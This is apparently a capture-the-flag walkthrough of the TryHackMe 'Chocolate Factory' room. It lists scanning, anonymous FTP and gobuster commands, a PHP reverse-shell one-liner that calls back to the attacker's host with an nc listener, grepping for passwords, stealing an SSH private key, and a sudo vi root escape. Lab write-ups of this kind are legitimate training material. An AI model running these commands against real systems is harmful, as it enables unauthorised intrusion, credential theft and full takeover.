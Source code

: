 # Chocolate Factory

**Room Link:** [https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

**Kali**

```
ftp $VICTIM
Username: anonymous
>binary
>passive
>mget *
```

<figure><img src="../../.gitbook/assets/image (30) (3).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (25) (2).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

We can run commands here and we see the key\_rev\_key file

![](<../../.gitbook/assets/image (2) (8).png>)



We go there by the url and we can download it

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
strings key_rev_key
```

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>





### Web Shell

**Web**

```
php -r '$sock=fsockopen("$KALI",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvp 4444
```

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /var/www/html/
grep password *
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Shell

I was not able to su into charlie with the password, the credentials did work for the web login but it just brought me to the command page.

**Victim**

```
cd /home/charlie/
cat teleport
```

I copied the teleport private key to kali

**Kali**

```
subl teleport 
chmod 700 teleport
ssh -i teleport charlie@$VICTIM  
```

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Exploit Link:** [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)

Charlie can run vi with no passwd so I just followed the link above to become root

**Victim**

```
sudo -l
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (8).png" alt=""><figcaption></figcaption></figure>




























































